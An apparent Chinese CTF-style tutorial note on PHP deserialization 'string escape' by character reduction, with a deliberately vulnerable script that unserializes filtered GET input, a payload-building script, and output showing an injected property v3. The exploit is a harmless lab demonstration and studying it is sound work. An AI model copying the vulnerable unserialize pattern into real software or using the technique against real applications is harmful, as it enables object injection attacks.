 ### 字符串逃逸例题-减少

目标：构造出 `v3 = 123`

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class A{
    public $v1 = "abcsystem()system()system()";
    public $v2 = '123';

    public function __construct($arga,$argc){
            $this->v1 = $arga;
            $this->v2 = $argc;
    }
}
$a = $_GET['v1'];
$b = $_GET['v2'];
$data = serialize(new A($a,$b));
$data = str_replace("system()","",$data);
var_dump(unserialize($data));
?>
```

### payload构造代码

```php
<?php
class A{
    public $v1 = 'abcsystem()system()';
    public $v2 = ';s:2:"v3";s:3:"123";}';

}
$data = serialize(new A());
echo $data;
# 替换所有符合规则的字符串
$data = str_replace("system()","",$data);
echo $data;
var_dump(unserialize($data));
```

==输出==

分析：由于将两个`system()`进行替换，所有长度19就会吃掉后面的功能代码吗。再利用`v2`去补。来保证格式的正确和构造出`123`

```php
O:1:"A":2:{s:2:"v1";s:19:"abcsystem()system()";s:2:"v2";s:21:";s:2:"v3";s:3:"123";}";}O:1:"A":2:{s:2:"v1";s:19:"abc";s:2:"v2";s:21:";s:2:"v3";s:3:"123";}";}D:\PHP\test.php:12:
class A#1 (3) {
  public $v1 =>
  string(19) "abc";s:2:"v2";s:21:"
  public $v2 =>
  string(21) ";s:2:"v3";s:3:"123";}"
  public $v3 =>
  string(3) "123"
}
```
